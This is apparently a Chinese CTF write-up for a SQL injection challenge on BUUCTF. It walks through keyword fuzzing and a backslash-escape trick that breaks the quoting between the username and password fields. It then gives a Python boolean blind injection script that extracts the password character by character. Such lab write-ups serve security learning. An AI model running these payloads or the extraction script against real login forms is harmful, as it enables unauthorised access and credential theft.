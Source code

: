 ```yaml
---
Author: Coder-LYQ
Date: 2021-1-5
---
```


## 思路
1. 打开网页，直接显示的就是登录框，首先尝试万能密码，`admin' and 1=1#`，密码随便输，发现网页提示hack，说明网页应该有检测输入中是否含有特定关键字，因此可以考虑使用burpsuite的intruder进行测试。

   <img src="../images/image-20210105195303604.png" alt="image-20210105195303604" width="40%;" />

   <img src="../images/image-20210105195351652.png" alt="image-20210105195351652" width="50%;" />

2. 从robots.txt发现hint.txt，发现线索：

   <img src="../images/image-20210106211834712.png" alt="image-20210106211834712" width="50%;" />

3. 利用前面提过的fuzz.txt，进行fuzz。发现union select and = 这些被检测，所以不能使用联合注入。但是用于布尔注入和报错注入的一些关键字均未被检测。

   <img src="../images/image-20210105200652806.png" alt="image-20210105200652806" width="50%;" />

4. 参考其他wp，利用**转义符`\`**，将username后面的'转义成普通字符，password字段后面的语句便能逃逸执行。

5. 测试`admin\`，`or 1#`
   此时SQL语句为：`select * from users where username='admin\' and password='or 1#'`

   转义符将'转义成一个普通的字符，因此此时的sql语句实际含义为username=`admin\' and password=`，以及执行后面的or 1 #。

6. 利用password的内容进行布尔注入爆破。

   ```python
   import requests
   url = "http://bc5d0433-45b5-486d-8fdd-541a8662fd10.node3.buuoj.cn/index.php"
   
   data = {"username":"admin\\","password":""}
   result = ""
   i = 0
   
   while( True ):
   	i = i + 1 
   	head=32
   	tail=127
   
   	while( head < tail ):
   		mid = (head + tail) >> 1
   
   		#payload = "or/**/if(ascii(substr(username,%d,1))>%d,1,0)#"%(i,mid)
   		payload = "or/**/if(ascii(substr(password,%d,1))>%d,1,0)#"%(i,mid)
   		
   		data['password'] = payload
   		r = requests.post(url,data=data)
   		while r.status_code == 429:
               print('too fast')
               time.sleep(2)
   		   r = requests.post(url,data=data)
   		if "stronger" in r.text :
   			head = mid + 1
   		else:
   			tail = mid
   	
   	last = result
   	
   	if head!=32:
   		result += chr(head)
   	else:
   		break
   	print(result)
   
   ```

   


## 总结
- **转义符**的使用以及结合盲注

